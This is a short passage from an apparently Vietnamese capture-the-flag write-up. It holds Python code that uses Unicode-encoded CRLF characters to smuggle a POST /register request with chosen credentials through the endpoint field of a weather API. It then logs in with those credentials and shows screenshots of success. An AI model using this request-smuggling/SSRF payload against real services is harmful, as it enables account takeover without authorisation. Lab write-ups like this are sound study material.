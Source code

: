 endpoint = '127.0.0.1/\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str (contentLength) + '\u010D\u010A\u010D\u010Ausername='+username + '&password='+ password + '\u010D\u010A\u010D\u010AGET\u0120/?lol='

json={'endpoint':endpoint,'city':'Hanoi','country':'VN'}

res=requests.post(url=url+'/api/weather',json=json)
```

Vào trang login nhập username và password vừa đổi

![image](https://user-images.githubusercontent.com/86275419/229217892-57f8ab18-2732-49ee-ae09-66974db9d4ea.png)

Bus luôn

![image](https://user-images.githubusercontent.com/86275419/229218363-47aaf2c5-ea7a-40c5-a173-2474e50d12eb.png)



 



